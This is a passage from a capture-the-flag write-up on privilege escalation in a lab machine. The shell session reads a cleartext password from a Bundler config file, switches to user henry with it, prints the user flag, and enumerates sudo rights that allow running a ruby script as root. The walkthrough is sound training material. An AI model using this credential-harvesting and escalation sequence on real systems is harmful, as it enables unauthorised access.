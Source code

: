 ## Privilege escalation:

Now that we have access to the ruby user, we need to elevate our privileges:
```
bash-5.1$ cd /home/ruby

bash-5.1$ ls -la

total 32
drwxr-xr-x 5 ruby ruby 4096 May 11 08:21 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 4 ruby ruby 4096 May 11 01:00 .cache
drwxr-xr-x 3 ruby ruby 4096 May 11 08:21 .local
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
```

We have the password in clear text for the user henry:
```
bash-5.1$ cd .bundle

bash-5.1$ cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"

bash-5.1$ su henry 
Password: Q3c1AqGHtoI0aXAYFH

bash-5.1$ whoami
henry

bash-5.1$ cd /home/henry

bash-5.1$ cat user.txt
b7da17f8f92a7e02a6b4489d3433f7b1
```

By checking the sudo permissions for the user henry, we can see he is able to launch an elevated command with the ruby binary by passing a script as an argument without the root password:
```
bash-5.1$ sudo -l

Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```
